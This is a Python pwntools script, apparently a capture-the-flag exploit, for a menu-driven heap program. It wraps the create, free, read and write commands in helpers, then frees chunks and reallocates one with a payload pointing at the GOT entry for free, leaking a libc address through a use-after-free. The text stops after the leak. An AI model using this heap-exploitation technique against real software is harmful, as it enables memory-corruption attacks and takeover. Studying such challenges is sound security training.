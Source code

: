 ```python
    r = remote(host, port)

binary = ELF("./run")
libc = ELF("./libc.so.6")

malloc_libc_OFFSET = libc.symbols["malloc"]
free_libc_OFFSET = libc.symbols["free"]


#################################################

def xfree(idx):
    print(r.recvuntil(b"enter your command: ").decode())
    r.sendline(b"F")
    print(r.recvuntil(b"enter your index: ").decode())
    r.sendline("{}".format(idx).encode())

def xread(idx):
    print(r.recvuntil(b"enter your command: ").decode())
    r.sendline(b"R")
    print(r.recvuntil(b"enter your index: ").decode())
    r.sendline("{}".format(idx).encode())

def xwrite(idx, value=b""):
    print(r.recvuntil(b"enter your command: ").decode())
    r.sendline(b"W")
    print(r.recvuntil(b"enter your index: ").decode())
    r.sendline("{}".format(idx).encode())
    print(r.recvuntil(b"enter your string: ").decode())
    r.sendline(value)

def xcreate(idx, length, value=b""):
    print(r.recvuntil(b"enter your command: ").decode())
    r.sendline(b"C")
    print(r.recvuntil(b"enter your index: ").decode())
    r.sendline("{}".format(idx).encode())
    print(r.recvuntil(b"How long is your safe_string: ").decode())
    r.sendline("{}".format(length).encode())
    print(r.recvuntil(b"enter your string: ").decode())
    r.sendline(value)


#################################################

xcreate(0, 128)
xcreate(1, 128)

xfree(0)
xfree(1)

got_free_addr = binary.symbols['got.free']
payload = p64(8) + p64(got_free_addr)
xcreate(2, 16, payload)

xread(0)

print(r.recvuntil(b"hex-encoded bytes\n").decode())
s = r.readline()
s = s.decode()
s = s.replace(" ", "")
s = bytes.fromhex(s)
free_addr = u64(s)

```